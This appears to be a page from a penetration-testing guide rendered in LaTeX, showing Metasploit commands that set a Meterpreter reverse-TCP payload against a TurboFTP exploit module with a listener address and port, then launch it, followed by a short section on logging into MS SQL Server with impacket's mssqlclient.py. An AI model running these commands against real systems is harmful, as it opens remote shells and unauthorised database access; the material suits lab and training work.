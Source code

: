 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \KeywordTok{set} \ExtensionTok{payload}\NormalTok{ windows/meterpreter/reverse_tcp}
\end{Highlighting}
\end{Shaded}

And again configure the payload and you will be good to go for launching the attack.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \KeywordTok{set} \ExtensionTok{LHOST}\NormalTok{ 10.10.10.2}
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \KeywordTok{set} \ExtensionTok{LPORT}\NormalTok{ 1234}

\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \ExtensionTok{exploit}
\end{Highlighting}
\end{Shaded}

\hypertarget{windows-specific}{%
\chapter*{Windows Specific}\label{windows-specific}}

\hypertarget{ms-sql-server}{%
\section*{MS SQL Server}\label{ms-sql-server}}

For accessing to \textbf{MS SQL SERVER}, you can use \texttt{mssqliclient.py} utility from the impacket package that is available on kali or that you
can clone from the \href{https://github.com/SecureAuthCorp/impacket}{impacket github repository}.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ mssqlcli}
\ExtensionTok{python3}\NormalTok{ mssqlclient.py -windows-auth }\OperatorTok{<}\NormalTok{user}\OperatorTok{>}\NormalTok{:}\OperatorTok{<}\NormalTok{password}\OperatorTok{>}\NormalTok{@10.10.10.10}
\ExtensionTok{SQL}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}
\end{document}
